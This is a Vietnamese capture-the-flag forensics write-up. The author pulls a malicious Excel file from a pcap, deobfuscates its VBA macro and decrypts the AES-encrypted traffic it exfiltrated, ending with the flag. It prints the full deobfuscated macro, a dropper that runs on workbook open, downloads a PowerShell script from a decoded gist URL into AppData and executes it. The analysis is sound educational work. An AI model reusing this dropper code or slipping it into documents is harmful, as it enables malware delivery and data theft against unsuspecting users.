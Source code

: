 ![Screenshot (4452)](https://github.com/NVex0/uWU/assets/113530029/fb8ee111-d71e-48de-9d56-2cae5b023c32)

#### Solve:

Vẫn là Hoà và tài liệu độc hại của anh ấy. Đề cho ta 1 file pcap, dựa theo mô tả của đề thì có vẻ đây là capture của traffic khi thầy giáo nhận file độc từ Hoà. Mình sẽ extract tài liệu đó trên HTTP object list:

![Screenshot (4453)](https://github.com/NVex0/uWU/assets/113530029/20002710-b291-49fc-bccd-5a397f6e3ba2)

 `olevba` đầu tiên thôi :v: :

![image](https://github.com/NVex0/uWU/assets/113530029/34ed6a24-738b-486d-9a8d-bbb22ccb5964)

Ta thấy đoạn malicious code này bị obfuscate khá đau mắt, tuy nhiên để ý thì có vẻ như nó chỉ bị obfu bằng xài mấy tên biến non-ascii kì cục :v 

Sử dụng cyberchef, mình sửa chay từng biến 1 :D và nhìn ra mặt code:

```
Function func1(var17)
var12 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var16 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(var17)
var4 = InStr(var12, Mid(var17, y, 1))
If var4 > 0 Then
var11 = Mid(var16, var4, 1)
var13 = var13 + var11
Else
var13 = var13 + Mid(var17, y, 1)
End If
Next
func1 = var13
For var26 = 1 To Len(var23)
var23 = var26
Next
For var30 = 2 To Len(var24)
var24 = 2
Next
For var33 = 3 To Len(var28)
var28 = var33
Next
For var18 = 4 To Len(var22)
var22 = 2
Next
End Function
Sub Workbook_Open()
Dim var31 As Object
Dim var21 As String
Dim var29 As String
Dim var19 As String
Dim var14 As Integer
var14 = Chr(50) + Chr(48) + Chr(48)
Set var31 = CreateObject("WScript.Shell")
var21 = var31.SpecialFolders("AppData")
Dim var9
Dim var6
Dim var3
Dim var26 As Long
Dim var30 As String
Dim var25 As Long
Dim var28 As String
Dim var33 As Long
Dim var18 As String
Dim var32 As String
Dim var24 As Long
Dim var10
Dim var15
Dim a0 As Integer
Dim var2
Dim var7
a0 = 1
Range("A1").Value = func1("4BEiàiuP3x6¿QEi³")
Dim var8 As String
var1 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
var8 = func1(var1)
MsgBox var8, vbInformation, func1("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim var20 As Date
Dim var27 As Date
var20 = Date
var27 = DateSerial(2023, 6, 6)
If var20 < var27 Then
Set var2 = CreateObject("microsoft.xmlhttp")
Set var15 = CreateObject("Shell.Application")
var10 = var21 + func1("\k¿i6Ü_~Bb@")
var2.Open "get", func1("Ü³³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
var2.send
var6 = var2.responseBody
If var2.Status = 200 Then
Set var9 = CreateObject("adodb.stream")
var9.Open
var9.Type = a0
var9.Write var6
var9.SaveToFile var10, a0 + a0
var9.Close
End If
var15.Open (var10)
Else
MsgBox func1("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

Đầu tiên với hàm `func1`, ta thấy nó nhận vào 1 chuỗi, trả về kí tự index thứ `var4` trên `var16`. `var4` là kết quả từ việc match xem kí tự lần đầu của chuỗi xuất hiện trong `var12` là ở đâu. Lặp liên tục trên len của chuỗi đầu vào, hàm trả về cho ta 1 string.

Func1 được gọi rất nhiều lần, mình viết code sau và decode từng đoạn gọi tới func1:

```
var2 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåØ¶§Ú¥"
var3 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
v1 = input()

out = ""
for i in range(len(v1)):
    if v1[i] == ':':
        out += ':'
    elif v1[i] =='/':
        out += '/'
    for j in range(len(var2)):
        if var2[j] == v1[i]:
            out += var3[j]
print(out)
```
Lần lượt với chuỗi đầu vào func, ta được các output như sau:

`Opening document`

`We deeply regret to inform you`

`buncha.ps1`

`https://gist.githubusercontent.com/bquanman/98da73d49faec0cbbdab02d4fd84adaa/raw/8de8b90981e667652b1a16f5caed364fdc311b77/a80sc012.ps1`

`Dont try to run me bro`

Chung quy lại là code này thực thi việc tải xuống file ps1 kia và lưu vào Appdata. Vào đường dẫn mà file được tải xuống:

![image](https://github.com/NVex0/uWU/assets/113530029/d4462edb-e086-40ed-9fde-5a9b91215a16)

Vẫn là base64 và deflate compress :v, ta làm tương tự như đoạn đầu thôi, và được 1 obfuscated code khác. Mình sử dụng `PowerDecode` để deobfuscate. 

Đoạn code sau khi deob nhìn khá rõ ràng. Cụ thể code này sử dụng AES-CBC Zero Padding với key có sẵn trong code. IV lấy 16 bytes nối với data sau khi encrypt. 
Sau đó là tạo stream để POST data lên kết nối được thiết lập trước. 

Vậy nên với file pcap của đề, mình sẽ tiến hành decrypt data mà Hoà lấy được từ máy thầy. Đầu tiên mình sort theo HTTP POST:

![image](https://github.com/NVex0/uWU/assets/113530029/027fd81a-9998-42ca-8b0e-884402d47b91)

Sau đó decrypt data bên client gửi bằng cách cắt đi 16 bytes đầu làm IV, key trong code và phần còn lại là encrypted data. Mình thử decrypt từng cái 1 và cuối cùng có được thứ mình cần ở stream POST lượng data lớn nhất. 

Phần data ta phải xử lý qua bằng URL decode trước. Sau đó mình decrypt với Cyberchef:

![image](https://github.com/NVex0/uWU/assets/113530029/d604601b-c12e-4fa8-b734-0e33181b8bc2)

Để ý thì kia là header của PNG, decode và save về, ta được 1 bức QR:

![image](https://github.com/NVex0/uWU/assets/113530029/0449648b-a836-47b3-93db-c23d9185768a)

Scan và mình có được Flag:

Flag: `CHH{D0n't_w0rRy_n0_st@r_wh3rE}`
